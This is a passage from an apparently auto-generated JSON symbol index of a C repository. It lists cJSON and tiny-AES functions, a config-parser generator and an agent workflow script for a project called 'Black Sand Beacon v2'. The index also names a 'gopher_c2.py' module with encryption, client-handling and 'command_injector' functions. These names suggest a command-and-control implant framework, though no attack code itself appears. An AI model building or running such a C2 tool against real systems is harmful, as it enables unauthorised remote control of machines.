*)item->valuestring, p); } /* Predeclare these prototypes. static cJSON_bool parse_value(cJSON *const item, parse_buffer *const input_buffer); static cJSON_bool print_value(const cJSON *const item, printbuffer *const output_buffer); static cJSON_bool parse_array(cJSON *const item, parse_buffer *const input_buffer); static cJSON_bool print_array(const cJSON *const item, printbuffer *const output_buffer); static cJSON_bool parse_object(cJSON *const item, parse_buffer *const input_buffer); static cJSON_bool print_object(const cJSON *const item, printbuffer *const output_buffer); /* Utility to jump whitespace and cr/lf", "kind": "function", "line": 1101, "name": "buffer_skip_whitespace", "signature": "static parse_buffer *buffer_skip_whitespace(parse_buffer *const buffer)"}, {"doc": "while (can_access_at_index(buffer, 0) && (buffer_at_offset(buffer)[0] <= 32)) { buffer->offset++; } if (buffer->offset == buffer->length) { buffer->offset--; } return buffer; } /* skip the UTF-8 BOM (byte order mark) if it is at the beginning of a buffer", "kind": "function", "line": 1127, "name": "skip_utf8_bom", "signature": "static parse_buffer *skip_utf8_bom(parse_buffer *const buffer)"}, {"kind": "function", "line": 1143, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *)\ncJSON_ParseWithOpts(const char *value, const char **return_parse_end,\n     ..."}, {"kind": "function", "line": 1251, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_ParseWithLength(const char *value, size_t buffer_length)"}, {"kind": "function", "line": 1258, "name": "print", "signature": "static unsigned char *print(const cJSON *const item, cJSON_bool format,\n                         ..."}, {"kind": "function", "line": 1333, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(char *) cJSON_PrintUnformatted(const cJSON *item)"}, {"kind": "function", "line": 1338, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(char *) cJSON_PrintBuffered(const cJSON *item, int prebuffer, cJSON_bool fmt)"}, {"kind": "function", "line": 1369, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool)\ncJSON_PrintPreallocated(cJSON *item, char *buffer, const int length, con..."}, {"doc": "return false; } p.buffer = (unsigned char *)buffer; p.length = (size_t)length; p.offset = 0; p.noalloc = true; p.format = format; p.hooks = global_hooks; return print_value(item, &p); } /* Parser core - when encountering text, process appropriately.", "kind": "function", "line": 1390, "name": "parse_value", "signature": "static cJSON_bool parse_value(cJSON *const item, parse_buffer *const input_buffer)"}, {"doc": "if (can_access_at_index(input_buffer, 0) && (buffer_at_offset(input_buffer)[0] == '[')) { return parse_array(item, input_buffer); } /* object if (can_access_at_index(input_buffer, 0) && (buffer_at_offset(input_buffer)[0] == '{')) { return parse_object(item, input_buffer); } return false; } /* Render a value to text.", "kind": "function", "line": 1450, "name": "print_value", "signature": "static cJSON_bool print_value(const cJSON *const item, printbuffer *const output_buffer)"}, {"doc": "return print_string(item, output_buffer); case cJSON_Array: return print_array(item, output_buffer); case cJSON_Object: return print_object(item, output_buffer); default: return false; } } /* Build an array from input text.", "kind": "function", "line": 1524, "name": "parse_array", "signature": "static cJSON_bool parse_array(cJSON *const item, parse_buffer *const input_buffer)"}, {"doc": "input_buffer->offset++; return true; fail: if (head != NULL) { cJSON_Delete(head); } return false; } /* Render an array to text", "kind": "function", "line": 1621, "name": "print_array", "signature": "static cJSON_bool print_array(const cJSON *const item, printbuffer *const output_buffer)"}, {"doc": "output_pointer = ensure(output_buffer, 2); if (output_pointer == NULL) { return false; } output_pointer++ = ']'; output_pointer = '\\0'; output_buffer->depth--; return true; } /* Build an object from the text.", "kind": "function", "line": 1683, "name": "parse_object", "signature": "static cJSON_bool parse_object(cJSON *const item, parse_buffer *const input_buffer)"}, {"doc": "input_buffer->offset++; return true; fail: if (head != NULL) { cJSON_Delete(head); } return false; } /* Render an object to text.", "kind": "function", "line": 1801, "name": "print_object", "signature": "static cJSON_bool print_object(const cJSON *const item, printbuffer *const output_buffer)"}, {"kind": "function", "line": 1937, "name": "get_array_item", "signature": "static cJSON *get_array_item(const cJSON *array, size_t index)"}, {"kind": "function", "line": 1956, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_GetArrayItem(const cJSON *array, int index)"}, {"kind": "function", "line": 1966, "name": "get_object_item", "signature": "static cJSON *get_object_item(const cJSON *const object, const char *const name,\n                ..."}, {"kind": "function", "line": 2003, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_GetObjectItem(const cJSON *const object, const char *const string)"}, {"kind": "function", "line": 2008, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *)\ncJSON_GetObjectItemCaseSensitive(const cJSON *const object, const char *con..."}, {"kind": "function", "line": 2014, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_HasObjectItem(const cJSON *object, const char *string)"}, {"doc": "} CJSON_PUBLIC(cJSON *) cJSON_GetObjectItemCaseSensitive(const cJSON *const object, const char *const string) { return get_object_item(object, string, true); } CJSON_PUBLIC(cJSON_bool) cJSON_HasObjectItem(const cJSON *object, const char *string) { return cJSON_GetObjectItem(object, string) ? 1 : 0; } /* Utility for array list handling.", "kind": "function", "line": 2020, "name": "suffix_object", "signature": "static void suffix_object(cJSON *prev, cJSON *item)"}, {"doc": "CJSON_PUBLIC(cJSON_bool) cJSON_HasObjectItem(const cJSON *object, const char *string) { return cJSON_GetObjectItem(object, string) ? 1 : 0; } /* Utility for array list handling. static void suffix_object(cJSON *prev, cJSON *item) { prev->next = item; item->prev = prev; } /* Utility for handling references.", "kind": "function", "line": 2027, "name": "create_reference", "signature": "static cJSON *create_reference(const cJSON *item, const internal_hooks *const hooks)"}, {"kind": "function", "line": 2048, "name": "add_item_to_array", "signature": "static cJSON_bool add_item_to_array(cJSON *array, cJSON *item)"}, {"doc": "/* Add item to array/object. CJSON_PUBLIC(cJSON_bool) cJSON_AddItemToArray(cJSON *array, cJSON *item) { return add_item_to_array(array, item); } #if defined(__clang__) ||                                                                          \\ (defined(__GNUC__) && ((__GNUC__ > 4) || ((__GNUC__ == 4) && (__GNUC__ - MINOR__ > 5)))) #pragma GCC diagnostic push #endif #ifdef __GNUC__ #pragma GCC diagnostic ignored \"-Wcast-qual\" #endif /* helper function to cast away const", "kind": "function", "line": 2095, "name": "cast_away_const", "signature": "static void *cast_away_const(const void *string)"}, {"kind": "function", "line": 2104, "name": "add_item_to_object", "signature": "static cJSON_bool add_item_to_object(cJSON *const object, const char *const string,\n             ..."}, {"kind": "function", "line": 2143, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_AddItemToObject(cJSON *object, const char *string, cJSON *item)"}, {"kind": "function", "line": 2154, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_AddItemReferenceToArray(cJSON *array, cJSON *item)"}, {"kind": "function", "line": 2164, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool)\ncJSON_AddItemReferenceToObject(cJSON *object, const char *string, cJSON ..."}, {"kind": "function", "line": 2176, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_AddNullToObject(cJSON *const object, const char *const name)"}, {"kind": "function", "line": 2188, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_AddTrueToObject(cJSON *const object, const char *const name)"}, {"kind": "function", "line": 2200, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_AddFalseToObject(cJSON *const object, const char *const name)"}, {"kind": "function", "line": 2212, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *)\ncJSON_AddBoolToObject(cJSON *const object, const char *const name, const cJ..."}, {"kind": "function", "line": 2225, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *)\ncJSON_AddNumberToObject(cJSON *const object, const char *const name, const ..."}, {"kind": "function", "line": 2238, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *)\ncJSON_AddStringToObject(cJSON *const object, const char *const name, const ..."}, {"kind": "function", "line": 2251, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *)\ncJSON_AddRawToObject(cJSON *const object, const char *const name, const cha..."}, {"kind": "function", "line": 2264, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_AddObjectToObject(cJSON *const object, const char *const name)"}, {"kind": "function", "line": 2276, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_AddArrayToObject(cJSON *const object, const char *const name)"}, {"kind": "function", "line": 2288, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_DetachItemViaPointer(cJSON *parent, cJSON *const item)"}, {"kind": "function", "line": 2324, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_DetachItemFromArray(cJSON *array, int which)"}, {"kind": "function", "line": 2334, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void) cJSON_DeleteItemFromArray(cJSON *array, int which)"}, {"kind": "function", "line": 2339, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_DetachItemFromObject(cJSON *object, const char *string)"}, {"kind": "function", "line": 2346, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_DetachItemFromObjectCaseSensitive(cJSON *object, const char *string)"}, {"kind": "function", "line": 2353, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void) cJSON_DeleteItemFromObject(cJSON *object, const char *string)"}, {"kind": "function", "line": 2358, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void) cJSON_DeleteItemFromObjectCaseSensitive(cJSON *object, const char *string)"}, {"kind": "function", "line": 2400, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool)\ncJSON_ReplaceItemViaPointer(cJSON *const parent, cJSON *const item, cJSO..."}, {"kind": "function", "line": 2451, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_ReplaceItemInArray(cJSON *array, int which, cJSON *newitem)"}, {"kind": "function", "line": 2461, "name": "replace_item_in_object", "signature": "static cJSON_bool replace_item_in_object(cJSON *object, const char *string, cJSON *replacement,\n ..."}, {"kind": "function", "line": 2486, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool)\ncJSON_ReplaceItemInObject(cJSON *object, const char *string, cJSON *newi..."}, {"kind": "function", "line": 2492, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool)\ncJSON_ReplaceItemInObjectCaseSensitive(cJSON *object, const char *string..."}, {"kind": "function", "line": 2510, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateTrue(void)"}, {"kind": "function", "line": 2521, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateFalse(void)"}, {"kind": "function", "line": 2532, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateBool(cJSON_bool boolean)"}, {"kind": "function", "line": 2543, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateNumber(double num)"}, {"kind": "function", "line": 2568, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateString(const char *string)"}, {"kind": "function", "line": 2585, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateStringReference(const char *string)"}, {"kind": "function", "line": 2597, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateObjectReference(const cJSON *child)"}, {"kind": "function", "line": 2609, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateArrayReference(const cJSON *child)"}, {"kind": "function", "line": 2621, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateRaw(const char *raw)"}, {"kind": "function", "line": 2638, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateArray(void)"}, {"kind": "function", "line": 2649, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateObject(void)"}, {"kind": "function", "line": 2702, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateFloatArray(const float *numbers, int count)"}, {"kind": "function", "line": 2743, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateDoubleArray(const double *numbers, int count)"}, {"kind": "function", "line": 2784, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateStringArray(const char *const *strings, int count)"}, {"kind": "function", "line": 2832, "name": "cJSON_Duplicate_rec", "signature": "cJSON *cJSON_Duplicate_rec(const cJSON *item, size_t depth, cJSON_bool recurse)"}, {"kind": "function", "line": 2923, "name": "skip_oneline_comment", "signature": "static void skip_oneline_comment(char **input)"}, {"kind": "function", "line": 2937, "name": "skip_multiline_comment", "signature": "static void skip_multiline_comment(char **input)"}, {"kind": "function", "line": 2951, "name": "minify_string", "signature": "static void minify_string(char **input, char **output)"}, {"kind": "function", "line": 2977, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void) cJSON_Minify(char *json)"}, {"kind": "function", "line": 3027, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsInvalid(const cJSON *const item)"}, {"kind": "function", "line": 3037, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsFalse(const cJSON *const item)"}, {"kind": "function", "line": 3047, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsTrue(const cJSON *const item)"}, {"kind": "function", "line": 3057, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsBool(const cJSON *const item)"}, {"kind": "function", "line": 3067, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsNull(const cJSON *const item)"}, {"kind": "function", "line": 3077, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsNumber(const cJSON *const item)"}, {"kind": "function", "line": 3087, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsString(const cJSON *const item)"}, {"kind": "function", "line": 3097, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsArray(const cJSON *const item)"}, {"kind": "function", "line": 3107, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsObject(const cJSON *const item)"}, {"kind": "function", "line": 3117, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsRaw(const cJSON *const item)"}, {"kind": "function", "line": 3127, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool)\ncJSON_Compare(const cJSON *const a, const cJSON *const b, const cJSON_bo..."}, {"kind": "function", "line": 3214, "name": "cJSON_ArrayForEach", "signature": "cJSON_ArrayForEach(a_element, a)"}, {"doc": "doing this twice, once on a and b to prevent true comparison if a subset of b * TODO: Do this the proper way, this is just a fix for now", "kind": "function", "line": 3230, "name": "cJSON_ArrayForEach", "signature": "cJSON_ArrayForEach(b_element, b)"}, {"kind": "function", "line": 3251, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void *) cJSON_malloc(size_t size)"}, {"kind": "function", "line": 3256, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void) cJSON_free(void *object)"}, {"kind": "macro", "line": 28, "name": "_CRT_SECURE_NO_DEPRECATE", "signature": "#define _CRT_SECURE_NO_DEPRECATE"}, {"kind": "macro", "line": 65, "name": "true", "signature": "#define true"}, {"kind": "macro", "line": 70, "name": "false", "signature": "#define false"}, {"kind": "macro", "line": 75, "name": "isinf", "signature": "#define isinf(d)"}, {"kind": "macro", "line": 78, "name": "isnan", "signature": "#define isnan(d)"}, {"kind": "macro", "line": 83, "name": "NAN", "signature": "#define NAN"}, {"kind": "macro", "line": 85, "name": "NAN", "signature": "#define NAN"}, {"kind": "macro", "line": 180, "name": "internal_malloc", "signature": "#define internal_malloc"}, {"kind": "macro", "line": 181, "name": "internal_free", "signature": "#define internal_free"}, {"kind": "macro", "line": 182, "name": "internal_realloc", "signature": "#define internal_realloc"}, {"kind": "macro", "line": 186, "name": "static_strlen", "signature": "#define static_strlen(string_literal)"}, {"kind": "macro", "line": 302, "name": "can_read", "signature": "#define can_read(buffer, size)"}, {"kind": "macro", "line": 304, "name": "can_access_at_index", "signature": "#define can_access_at_index(buffer, index)"}, {"kind": "macro", "line": 306, "name": "cannot_access_at_index", "signature": "#define cannot_access_at_index(buffer, index)"}, {"kind": "macro", "line": 308, "name": "buffer_at_offset", "signature": "#define buffer_at_offset(buffer)"}, {"kind": "macro", "line": 1256, "name": "cjson_min", "signature": "#define cjson_min(a, b)"}]}, {"id": "cJSON.h", "kind": "module", "label": "cJSON.h", "language": "h", "sha256": "7abb36a94c09a4e4", "symbol_count": 40, "symbols": [{"doc": "#define cJSON_Invalid (0) #define cJSON_False (1 << 0) #define cJSON_True (1 << 1) #define cJSON_NULL (1 << 2) #define cJSON_Number (1 << 3) #define cJSON_String (1 << 4) #define cJSON_Array (1 << 5) #define cJSON_Object (1 << 6) #define cJSON_Raw (1 << 7) /* raw json #define cJSON_IsReference 256 #define cJSON_StringIsConst 512 /* The cJSON structure:", "kind": "struct", "line": 98, "name": "cJSON"}, {"kind": "struct", "line": 123, "name": "cJSON_Hooks"}, {"kind": "type_alias", "line": 130, "name": "cJSON_bool", "signature": "typedef int cJSON_bool;"}, {"kind": "function", "line": 152, "name": "cJSON_Parse", "signature": "* cJSON_Parse (with cJSON_Delete) and cJSON_Print (with stdlib free, cJSON_Hooks.free_fn, or * cJSON_free as appropriate). The exception is cJSON_PrintPreallocated, where the caller has * full respons"}, {"kind": "function", "line": 161, "name": "cJSON_GetErrorPtr", "signature": "* a pointer to the error so will match cJSON_GetErrorPtr(). */ CJSON_PUBLIC(cJSON *) cJSON_ParseWithOpts(const char *value, const char **return_parse_end, cJSON_bool require_null_terminated);"}, {"kind": "function", "line": 247, "name": "that", "signature": "* that (item->type & cJSON_StringIsConst) is zero before writing to `item->string` */ CJSON_PUBLIC(cJSON_bool) cJSON_AddItemToObjectCS(cJSON *object, const char *string, cJSON *item);"}, {"kind": "function", "line": 286, "name": "sensitive", "signature": "* sensitive (1) or case insensitive (0) */ CJSON_PUBLIC(cJSON_bool) cJSON_Compare(const cJSON *const a, const cJSON *const b, const cJSON_bool case_sensitive);"}, {"doc": "ifdef __cplusplus", "kind": "variable", "line": 27, "name": "next", "signature": "extern \"C\" { #endif #if !defined(__WINDOWS__) && \\ (defined(WIN32) || defined(WIN64) || defined(_MSC_VER) || defined(_WIN32)) #define __WINDOWS__ #endif #ifdef __WINDOWS__ /* When compiling for window"}, {"kind": "macro", "line": 24, "name": "cJSON__h", "signature": "#define cJSON__h"}, {"kind": "macro", "line": 33, "name": "__WINDOWS__", "signature": "#define __WINDOWS__"}, {"kind": "macro", "line": 49, "name": "CJSON_CDECL", "signature": "#define CJSON_CDECL"}, {"kind": "macro", "line": 50, "name": "CJSON_STDCALL", "signature": "#define CJSON_STDCALL"}, {"kind": "macro", "line": 54, "name": "CJSON_EXPORT_SYMBOLS", "signature": "#define CJSON_EXPORT_SYMBOLS"}, {"kind": "macro", "line": 58, "name": "CJSON_PUBLIC", "signature": "#define CJSON_PUBLIC(type)"}, {"kind": "macro", "line": 60, "name": "CJSON_PUBLIC", "signature": "#define CJSON_PUBLIC(type)"}, {"kind": "macro", "line": 62, "name": "CJSON_PUBLIC", "signature": "#define CJSON_PUBLIC(type)"}, {"kind": "macro", "line": 65, "name": "CJSON_CDECL", "signature": "#define CJSON_CDECL"}, {"kind": "macro", "line": 66, "name": "CJSON_STDCALL", "signature": "#define CJSON_STDCALL"}, {"kind": "macro", "line": 70, "name": "CJSON_PUBLIC", "signature": "#define CJSON_PUBLIC(type)"}, {"kind": "macro", "line": 72, "name": "CJSON_PUBLIC", "signature": "#define CJSON_PUBLIC(type)"}, {"kind": "macro", "line": 77, "name": "CJSON_VERSION_MAJOR", "signature": "#define CJSON_VERSION_MAJOR"}, {"kind": "macro", "line": 78, "name": "CJSON_VERSION_MINOR", "signature": "#define CJSON_VERSION_MINOR"}, {"kind": "macro", "line": 79, "name": "CJSON_VERSION_PATCH", "signature": "#define CJSON_VERSION_PATCH"}, {"kind": "macro", "line": 84, "name": "cJSON_Invalid", "signature": "#define cJSON_Invalid"}, {"kind": "macro", "line": 85, "name": "cJSON_False", "signature": "#define cJSON_False"}, {"kind": "macro", "line": 86, "name": "cJSON_True", "signature": "#define cJSON_True"}, {"kind": "macro", "line": 87, "name": "cJSON_NULL", "signature": "#define cJSON_NULL"}, {"kind": "macro", "line": 88, "name": "cJSON_Number", "signature": "#define cJSON_Number"}, {"kind": "macro", "line": 89, "name": "cJSON_String", "signature": "#define cJSON_String"}, {"kind": "macro", "line": 90, "name": "cJSON_Array", "signature": "#define cJSON_Array"}, {"kind": "macro", "line": 91, "name": "cJSON_Object", "signature": "#define cJSON_Object"}, {"kind": "macro", "line": 92, "name": "cJSON_Raw", "signature": "#define cJSON_Raw"}, {"kind": "macro", "line": 94, "name": "cJSON_IsReference", "signature": "#define cJSON_IsReference"}, {"kind": "macro", "line": 95, "name": "cJSON_StringIsConst", "signature": "#define cJSON_StringIsConst"}, {"kind": "macro", "line": 136, "name": "CJSON_NESTING_LIMIT", "signature": "#define CJSON_NESTING_LIMIT"}, {"kind": "macro", "line": 142, "name": "CJSON_CIRCULAR_LIMIT", "signature": "#define CJSON_CIRCULAR_LIMIT"}, {"kind": "macro", "line": 312, "name": "cJSON_SetIntValue", "signature": "#define cJSON_SetIntValue(object, number)"}, {"kind": "macro", "line": 316, "name": "cJSON_SetNumberValue", "signature": "#define cJSON_SetNumberValue(object, number)"}, {"kind": "macro", "line": 324, "name": "cJSON_SetBoolValue", "signature": "#define cJSON_SetBoolValue(object, boolValue)"}, {"kind": "macro", "line": 331, "name": "cJSON_ArrayForEach", "signature": "#define cJSON_ArrayForEach(element, array)"}]}, {"doc": "Config Parser Generator for Black Sand Beacon  Reads config/schema.json (JSON Schema Draft 7) and generates: 1. include/config_autogen.h - C struct definitions 2. include/config_autogen.c - C parser implementation 3. include/config_py_autogen.py - Python config loader  This ensures C and Python parsers are always in sync.", "id": "config/generate_parsers.py", "kind": "module", "label": "generate_parsers.py", "language": "py", "sha256": "8b0994abb5ba9c0a", "symbol_count": 7, "symbols": [{"kind": "function", "line": 25, "name": "load_schema", "signature": "def load_schema()"}, {"doc": "Map JSON Schema type to C type.", "kind": "function", "line": 30, "name": "c_type_from_schema", "signature": "def c_type_from_schema(prop, required)"}, {"doc": "Convert JSON field name to C field name (snake_case).", "kind": "function", "line": 48, "name": "c_field_name", "signature": "def c_field_name(json_name)"}, {"doc": "Generate C struct definitions from schema.", "kind": "function", "line": 53, "name": "generate_c_structs", "signature": "def generate_c_structs(schema)"}, {"doc": "Generate C parser implementation from schema.", "kind": "function", "line": 136, "name": "generate_c_parser", "signature": "def generate_c_parser(schema)"}, {"doc": "Generate Python config loader from schema.", "kind": "function", "line": 465, "name": "generate_python_loader", "signature": "def generate_python_loader(schema)"}, {"kind": "function", "line": 615, "name": "main", "signature": "def main()"}]}, {"doc": "Contract Driven Agent - SDD/TDD/BDD workflow for Black Sand Beacon v2. Reads CLAUDE.md contracts and executes the full workflow.", "id": "contract_agent.py", "kind": "module", "label": "contract_agent.py", "language": "py", "sha256": "9a044db3f8bffb61", "symbol_count": 17, "symbols": [{"doc": "Run a command and return (exit_code, stdout, stderr).", "kind": "function", "line": 23, "name": "run_cmd", "signature": "def run_cmd(cmd, cwd)"}, {"kind": "function", "line": 29, "name": "ensure_dir", "signature": "def ensure_dir(path)"}, {"kind": "function", "line": 33, "name": "git", "signature": "def git()"}, {"kind": "function", "line": 37, "name": "make_target", "signature": "def make_target(target)"}, {"doc": "Extract contracts from CLAUDE.md (## Contract: Name headings).", "kind": "function", "line": 41, "name": "extract_contracts", "signature": "def extract_contracts(claude_content)"}, {"doc": "Write spec/<contract_name>.md with SDD template.", "kind": "function", "line": 62, "name": "write_spec", "signature": "def write_spec(contract_name, body)"}, {"doc": "Write a failing pytest test for the contract.", "kind": "function", "line": 96, "name": "write_python_test", "signature": "def write_python_test(contract_name, body)"}, {"doc": "Write a failing CMocka test for C components.", "kind": "function", "line": 141, "name": "write_c_test", "signature": "def write_c_test(contract_name, body)"}, {"doc": "Write minimal C implementation stub.", "kind": "function", "line": 179, "name": "write_implementation_stub", "signature": "def write_implementation_stub(contract_name)"}, {"doc": "Run pytest and return True if all pass.", "kind": "function", "line": 213, "name": "run_python_tests", "signature": "def run_python_tests()"}, {"doc": "Run C tests via make test (assumes Makefile has C test targets).", "kind": "function", "line": 223, "name": "run_c_tests", "signature": "def run_c_tests()"}, {"doc": "Run mutation testing with mutmut (Python) and custom (C).", "kind": "function", "line": 233, "name": "run_mutation_testing", "signature": "def run_mutation_testing()"}, {"doc": "Run AddressSanitizer build and tests.", "kind": "function", "line": 256, "name": "run_asan", "signature": "def run_asan()"}, {"doc": "Run static analysis (cppcheck).", "kind": "function", "line": 266, "name": "run_qa", "signature": "def run_qa()"}, {"doc": "Create a new branch, add changes, commit.", "kind": "function", "line": 275, "name": "git_commit_and_branch", "signature": "def git_commit_and_branch(contract_name)"}, {"doc": "Execute the full SDD+TDD+BDD workflow for a single contract.", "kind": "function", "line": 289, "name": "process_contract", "signature": "def process_contract(contract_name, body)"}, {"kind": "function", "line": 316, "name": "main", "signature": "def main()"}]}, {"id": "gopher_c2.py", "kind": "module", "label": "gopher_c2.py", "language": "py", "sha256": "c445be2cfe0a79d6", "symbol_count": 5, "symbols": [{"kind": "function", "line": 30, "name": "encrypt_data", "signature": "def encrypt_data(data)"}, {"kind": "function", "line": 40, "name": "decrypt_data", "signature": "def decrypt_data(b64_data)"}, {"kind": "function", "line": 49, "name": "handle_client", "signature": "def handle_client(conn, addr)"}, {"kind": "function", "line": 143, "name": "main", "signature": "def main()"}, {"kind": "function", "line": 152, "name": "command_injector", "signature": "def command_injector()"}]}, {"doc": "aes.c - tiny-AES-c (https://github.com/kokke/tiny-AES-c)", "id": "include/aes.c", "kind": "module", "label": "aes.c", "language": "c", "sha256": "f0768ebcda02a1d9", "symbol_count": 43, "symbols": [{"kind": "function", "line": 11, "name": "__attribute__", "signature": "static __attribute__((unused)) uint8_t getSBoxValue(uint8_t num)"}, {"kind": "function", "line": 35, "name": "__attribute__", "signature": "static __attribute__((unused)) uint8_t getSBoxInvert(uint8_t num)"}, {"kind": "function", "line": 59, "name": "__attribute__", "signature": "static __attribute__((unused)) uint8_t Td0(int x)"}, {"kind": "function", "line": 63, "name": "__attribute__", "signature": "static __attribute__((unused)) uint8_t Td1(int x)"}, {"kind": "function", "line": 67, "name": "__attribute__", "signature": "static __attribute__((unused)) uint8_t Td2(int x)"}, {"kind": "function", "line": 71, "name": "__attribute__", "signature": "static __attribute__((unused)) uint8_t Td3(int x)"}, {"kind": "function", "line": 75, "name": "__attribute__", "signature": "static __attribute__((unused)) uint8_t Td4(int x)"}, {"doc": "This function produces Nb(Nr+1) round keys. The round keys are used in each round to decrypt the states.", "kind": "function", "line": 181, "name": "KeyExpansion", "signature": "static void KeyExpansion(uint8_t *RoundKey, const uint8_t *Key)"}, {"kind": "function", "line": 254, "name": "AES_init_ctx", "signature": "void AES_init_ctx(struct AES_ctx *ctx, const uint8_t *key)"}, {"doc": "if (defined(CBC) && (CBC == 1)) || (defined(CTR) && (CTR == 1))", "kind": "function", "line": 259, "name": "AES_init_ctx_iv", "signature": "void AES_init_ctx_iv(struct AES_ctx *ctx, const uint8_t *key, const uint8_t *iv)"}, {"kind": "function", "line": 264, "name": "AES_ctx_set_iv", "signature": "void AES_ctx_set_iv(struct AES_ctx *ctx, const uint8_t *iv)"}, {"doc": "This function adds the round key to state. The round key is added to the state by an XOR function.", "kind": "function", "line": 272, "name": "AddRoundKey", "signature": "static void AddRoundKey(uint8_t round, state_t *state, const uint8_t *RoundKey)"}, {"doc": "The SubBytes Function Substitutes the values in the state matrix with values in an S-box.", "kind": "function", "line": 286, "name": "SubBytes", "signature": "static void SubBytes(state_t *state)"}, {"doc": "The ShiftRows() function shifts the rows in the state to the left. Each row is shifted with different offset. Offset = Row number. So the first row is not shifted.", "kind": "function", "line": 301, "name": "ShiftRows", "signature": "static void ShiftRows(state_t *state)"}, {"kind": "function", "line": 329, "name": "xtime", "signature": "static uint8_t xtime(uint8_t x)"}, {"doc": "MixColumns function mixes the columns of the state matrix", "kind": "function", "line": 335, "name": "MixColumns", "signature": "static void MixColumns(state_t *state)"}, {"doc": "Multiply is used to multiply numbers in the field GF(2^8) Note: The last call to xtime() is unneeded, but often ends up generating a smaller binary The compiler seems to be able to vectorize the operation better this way. See https://github.com/kokke/tiny-AES-c/pull/34 if MULTIPLY_AS_A_FUNCTION", "kind": "function", "line": 363, "name": "Multiply", "signature": "static uint8_t Multiply(uint8_t x, uint8_t y)"}, {"doc": "MixColumns function mixes the columns of the state matrix. The method used to multiply may be difficult to understand for the inexperienced. Please use the references to gain more information.", "kind": "function", "line": 389, "name": "InvMixColumns", "signature": "static void InvMixColumns(state_t *state)"}, {"doc": "The SubBytes Function Substitutes the values in the state matrix with values in an S-box.", "kind": "function", "line": 413, "name": "InvSubBytes", "signature": "static void InvSubBytes(state_t *state)"}, {"kind": "function", "line": 